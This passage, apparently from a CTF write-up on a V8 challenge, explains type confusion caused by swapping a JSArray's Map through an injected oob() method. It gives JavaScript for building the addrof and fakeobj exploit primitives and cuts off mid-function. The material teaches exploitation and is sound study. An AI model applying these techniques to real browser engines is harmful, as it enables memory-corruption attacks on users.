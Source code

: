 ![](./solution/assets/double-array-2.jpg)


### Type Confusion

Overwriting the Map field in a JSArray object can lead to type confusion in V8, JavaScript's engine. This field determines the type of an array's elements and how they are accessed:

1. Array of Objects: When we define an array containing objects and access an element (e.g., at index 0), V8 interprets the value at this index as a pointer to an object. For instance, accessing this element would result in V8 fetching and printing the referenced object.

2. Array of Floats: Conversely, in an array of floating-point numbers, accessing an element directly yields the floating-point value. Here, V8 treats the value at the index as a float value.

So, if we can overwrite the Map field of a array of object to an array of float, it will treat its element as float value which actually is a object pointer.


By leveraging the type confusion here, we can leak arbitrary object's address:

```
var temp_obj = {"A":1};
var obj_arr = [temp_obj];
var fl_arr = [1.1, 1.2, 1.3, 1.4];
var map1 = obj_arr.oob();
var map2 = fl_arr.oob();

obj_arr.oob(map2);
let addr = obj_arr[0];
console.log("[+] addr of temp_obj: 0x" + ftoi(addr).toString(16));
// [+] addr of temp_obj: 0x2c4b4c4eab1
```

In contrast, we can foo the V8 to treat an arbitrary float value (4 bytes) as an object.

```
fl_arr.oob(map1);
let fakeobj = fl_arr[0]; // treat 1.1 in hex format as an address of object
console.log("[+] fakeobj: 0x" + ftoi(fakeobj).toString(16));
```

Therefore, we can get two basic exploit primitives: `addrof` and `fakeobj`.

```
var temp_obj = {"A":1};
var obj_arr = [temp_obj];
var fl_arr = [1.1, 1.2, 1.3, 1.4];
var map1 = obj_arr.oob();
var map2 = fl_arr.oob();

function addrof(in_obj) {
    // First, put the obj whose address we want to find into index 0
    obj_arr[0] = in_obj;

    // Change the obj array's map to the float array's map
    obj_arr.oob(map2);

    // Get the address by accessing index 0
    let addr = obj_arr[0];

    // Set the map back
    obj_arr.oob(map1);

```